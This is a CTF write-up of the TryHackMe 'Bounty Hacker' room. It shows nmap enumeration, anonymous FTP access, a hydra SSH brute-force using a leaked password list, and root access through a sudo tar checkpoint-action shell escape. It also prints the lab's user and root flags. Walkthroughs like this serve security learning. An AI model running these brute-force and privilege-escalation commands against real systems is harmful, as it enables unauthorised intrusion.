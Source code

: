 ```yaml
---
published: true
---
```

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/1.png)

Today I wanna share for you a very easy fun box in [Tryhackme](https://tryhackme.com/) called [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) created by [Sevuhl](https://tryhackme.com/p/Sevuhl)

# [](#header-2)Nmap Scan

```
# Nmap 7.80 scan initiated Fri Jul 31 19:53:29 2020 as: nmap -sC -sV -oN nmap 10.10.85.90
Nmap scan report for 10.10.85.90
Host is up (0.29s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.69.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 19:54:25 2020 -- 1 IP address (1 host up) scanned in 56.02 seconds

```
# [](#header-2)Web

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/2.png)

I scanned all directories, but nothing interesting there ,let's move on 

# [](#header-2)FTP

Next step is FTP can login with anonymous 

```
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ftp 10.10.85.90
Connected to 10.10.85.90.
220 (vsFTPd 3.0.3)
Name (10.10.85.90:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
`ls -al` 

```
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 

```
Let's download these two files with `get` command

```
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (402.1706 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (35.0984 kB/s)
ftp> 

```

`task.txt`

```
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

`locks.txt`

```
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat locks.txt 
rEddrAGON
ReDdr*****d!cat3
Dr@gO*****cat3
R3DDr*****YndIC@Te
Re****0N
R3d*****1c4te
dRa****DiCATE
ReDD*****Ic4te
R3D****44
RedD*****1cat3
R3dD*****d1c@T3
Synd*****@g0n
re****Ag0N
REddR*****NdIc47e
Dra6******IC@t3
4L1mi*****eB357
rEDd******1c473
DrAg****D1cATE
ReD*****nd1cate
Dr@g*****1C4Te
RedDr*****9ic47e
REd*****7e
dr******c@73
rEDdr******iCat3
r3d****0N
Re****1ca7e

```

Look like `passowrd` file. According to `task.txt` file `lin` can be username 

So let's bruteforce with hydra for ssh :)

```
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #hydra -l lin -P locks.txt ssh://10.10.85.90
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 20:17:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.85.90:22/
[22][ssh] host: 10.10.85.90   login: lin   password: RedD*******nd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 20:17:40
```

OK! Now we got username and password , let's login

```
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ssh lin@10.10.85.90
lin@10.10.85.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Fri Jul 31 09:59:59 2020 from 10.8.69.162
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR**************T3}

```

# [](#header-2)Privilege Escalation

```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

`lin` user can run `tar` as root ,let's go [GTFObin](https://gtfobins.github.io/) and search `tar`

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/3.png)

Now we use this command for privilege escalation

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

We owned this machine :)

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/4.png)

[Enjoy..]()

<script src="https://tryhackme.com/badge/97569"></script>
